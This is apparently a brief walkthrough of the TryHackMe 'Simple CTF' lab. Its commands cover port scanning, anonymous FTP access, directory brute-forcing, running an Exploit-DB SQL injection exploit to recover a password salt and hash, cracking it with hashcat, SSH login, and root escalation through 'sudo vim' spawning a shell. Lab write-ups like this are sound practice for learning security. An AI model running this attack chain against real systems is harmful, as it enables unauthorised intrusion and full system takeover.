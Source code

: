 # THM - Simple CTF

```shell
nmap -A 10.10.56.179

ftp 10.10.56.179
	anonymous
		ls
		cd pub
		mget *
		bye

http://10.10.56.179/robots.txt

gobuster dir -w KaliWordLists/dirbuster/directory-list-2.3-small.txt -u http://10.10.56.179
```

http://10.10.56.179/simple

https://www.exploit-db.com/exploits/46635

```shell
python2 -m pip install requests
python2 -m pip install termcolor

python2 46635.py -u http://10.10.56.179/simple
```

> Salt for password found: 1dac0d92e9fa6bb2
> 

```shell
hashcat -O -a 0 -m 10 :1dac0d92e9fa6bb2 KaliWordLists/rockyou.txt

hashcat -O -a 0 -m 10 :1dac0d92e9fa6bb2 KaliWordLists/rockyou.txt
```

> secret

```shell
ssh mitch@10.10.56.179 -p 2222
	yes
	secret
		ls
		cat user.txt
		
		ls /home
		
		sudo -l
		
		sudo vim -c ':!/bin/sh'		# https://gtfobins.github.io/gtfobins/vim/#sudo
			whoami
			
			ls /root
			cat /root/root.txt
```
